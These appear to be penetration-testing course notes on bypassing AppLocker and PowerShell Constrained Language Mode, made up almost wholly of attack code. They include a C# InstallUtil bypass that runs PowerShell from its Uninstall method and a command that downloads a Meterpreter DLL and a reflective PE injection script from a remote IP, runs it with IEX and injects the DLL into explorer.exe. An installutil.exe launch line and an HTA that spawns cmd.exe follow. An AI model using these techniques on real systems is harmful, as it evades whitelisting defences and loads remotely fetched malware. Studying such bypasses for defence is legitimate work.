 # Bypassing AppLocker with PowerShell

## 8.3.1 PowerShell Constrained Language Mode

```powershell
PS C:\Users\student> $ExecutionContext.SessionState.LanguageMode

```

```powershell
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace applocker
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
    public override void Uninstall(System.Collections.IDictionary savedState)
    {
        Runspace rs = RunspaceFactory.CreateRunspace();
        rs.Open();
        String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";

        PowerShell ps = PowerShell.Create();
        ps.Runspace = rs;
             
        ps.AddScript(cmd);
        ps.Invoke();
        rs.Close();

     }
    }
} 
```
同理 进一步可以将上述cmd换成powershell
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.96:8080/met.dll');(New-Object
System.Net.WebClient).DownloadString('http://192.168.49.96:8080/Invoke-
ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-
ReflectivePEInjection -PEBytes $bytes -ProcId $procid";



```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe
/logfile= /LogToConsole=false /U applocker.exe
```

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var res = shell.Run("cmd.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
